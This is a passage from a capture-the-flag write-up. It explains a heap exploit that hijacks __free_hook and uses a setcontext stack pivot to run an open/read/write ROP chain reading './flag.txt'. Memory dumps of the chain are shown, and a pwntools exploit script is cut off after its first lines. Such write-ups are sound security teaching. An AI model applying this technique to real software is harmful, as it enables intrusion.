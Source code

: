 I searched for other `push rdi; ...; pop rsp; ...; ret;` ROP gadgets, but none
were available.

When I checked the following site, I was able to use ROP because I could set
the address of the heap in the `rsp` register by using the ROP gadget of `mov
rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx +
0x20];` and the `setcontext` function.

[https://lkmidas.github.io/posts/20210103-heap-seccomp-
rop/](http://lkmidas.github.io/posts/20210103-heap-seccomp-rop/)

In ROP, we can read the flag file by `sys_open` the `./flag.txt` file and
system-calling `sys_read` and `sys_write` in that order.

The following is the state where the address of `mov rdx, qword ptr [rdi + 8];
...` is set in `__free_hook`.  
```  
0x7ffff7f8de30 <fork_handlers+1552>:    0x0000000000000000
0x0000000000000000  
0x7ffff7f8de40 <__after_morecore_hook>: 0x000055555555b2c0
0x00007ffff7ef08b0  
```

The following is the state where the ROP code is written in the heap area.  
```  
0x55555555b290: 0x0000000000000000      0x0000000000000021  
0x55555555b2a0: 0x000055555555a770      0x0000555555559010  
0x55555555b2b0: 0x0000000000000001      0x0000000000000211  
0x55555555b2c0: 0x4141414141414141      0x4141414141414141  
0x55555555b2d0: 0x4141414141414141      0x4141414141414141  
0x55555555b2e0: 0x00007ffff7df3f8d      0x4242424242424242  
0x55555555b2f0: 0x4242424242424242      0x4242424242424242  
0x55555555b300: 0x4242424242424242      0x4242424242424242  
0x55555555b310: 0x4242424242424242      0x4242424242424242  
0x55555555b320: 0x4242424242424242      0x4242424242424242  
0x55555555b330: 0x4242424242424242      0x4242424242424242  
0x55555555b340: 0x4242424242424242      0x4242424242424242  
0x55555555b350: 0x4242424242424242      0x4242424242424242  
0x55555555b360: 0x000055555555b370      0x00007ffff7dc1679  
0x55555555b370: 0x00007ffff7de6400      0x0000000000000002  
0x55555555b380: 0x00007ffff7dc2b72      0x000055555555b418  
0x55555555b390: 0x00007ffff7dc504f      0x0000000000000000  
0x55555555b3a0: 0x00007ffff7e020d9      0x00007ffff7dc2b72  
0x55555555b3b0: 0x0000000000000000      0x00007ffff7e90b95  
0x55555555b3c0: 0x00007ffff7dc504f      0x000055555555d000  
0x55555555b3d0: 0x00007ffff7eb8241      0x0000000000000080  
0x55555555b3e0: 0x0000000000000000      0x00007ffff7e020d9  
0x55555555b3f0: 0x00007ffff7de6400      0x0000000000000001  
0x55555555b400: 0x00007ffff7dc2b72      0x0000000000000001  
0x55555555b410: 0x00007ffff7e020d9      0x742e67616c662f2e  
0x55555555b420: 0x0000000000007478      0x0000000000000000  
0x55555555b430: 0x0000000000000000      0x0000000000000000  
```

## Exploit code:  
The Exploit code is below.  
```python  
from pwn import *

context(os='linux', arch='amd64')  
#context.log_level = 'debug'

BINARY = './memory'  
context.binary = elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':  
```